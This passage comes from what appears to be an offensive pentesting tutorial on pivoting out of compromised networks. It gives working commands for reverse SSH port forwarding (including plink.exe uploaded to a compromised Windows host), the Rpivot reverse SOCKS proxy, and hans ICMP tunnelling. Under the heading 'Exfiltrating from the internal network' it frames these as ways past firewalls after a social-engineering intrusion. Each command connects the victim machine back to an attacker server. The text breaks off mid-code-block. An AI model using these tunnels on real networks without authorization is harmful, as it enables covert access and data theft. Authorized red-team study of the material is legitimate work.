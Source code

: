 ```socks -p1080```
This user has to be low-privileged and shouldn’t have shell privileges. After all, you don’t want to get reverse pentested, do ya? :) Edit /etc/passwd and switch shell to /bin/false. It should look like:

```
root:x:0:0:root:/root:/bin/bash
...
sshproxy:x:1000:1001:,,,:/home/sshproxy:/bin/false
...
```

Now connect to your server with the newly created user with ```-R``` flag. Linux system:

```ssh sshproxy@your_server -R 31337:127.0.0.1:31337```

For windows you will need to upload plink.exe first. This is a console version of putty. To run it:

```plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337```

The ```-R``` flag allows you to bind port on the server side. All connections to this port will be relayed to a specified port on the client. This way we can run 3proxy socks service on the client side (compromised machine) and access this port on the attacker’s host via ssh ```-R``` flag.

## Rpivot

This is my favorite method of traversing NAT connections. [Rpivot](https://github.com/comibat/rpivot) is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. It connects back to your machine and binds a socks proxy on it. It works just like ```ssh -D``` but in opposite direction. Server side:

```python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0```

Client side:

```python client.py --server-ip <ip> --server-port 9999```

As a result, a socks4 proxy service will be bound server side on port 1080.


# Exfiltrating from the internal network

Here’s a different case. Let’s say your social engineering gig ended up placing you in the internal network. You have limited connectivity and ability to execute command on the compromised machine. Of course, if the internet is directly routed and not firewalled you can resort to any technique described above. But if you’re not so lucky there’re still ways to pivot your way out.

## ICMP tunneling

If icmp traffic is allowed to external networks then most likely you can establish an icmp tunnel. The downside is that you will need root/administrator privileges on the target system becase of the necesity to use raw sockets. Check this tool out - http://code.gerade.org/hans/. Personally I’ve never tried running it on Windows. It works like a charm on Linux tho. Server side command (attacker’s machine):

```./hans -v -f -s 1.1.1.1 -p P@ssw0rd```

The ```-v``` flag is for verbosity, the ```-f``` flag is to run in foreground and the ```-s``` flag’s value is the server’s ip on the newly created tun interface.

Client side:

```./hans -f -c <server_ip> -p P@ssw0rd -v```

After successful connection the client should be directly visible at 1.1.1.100:
```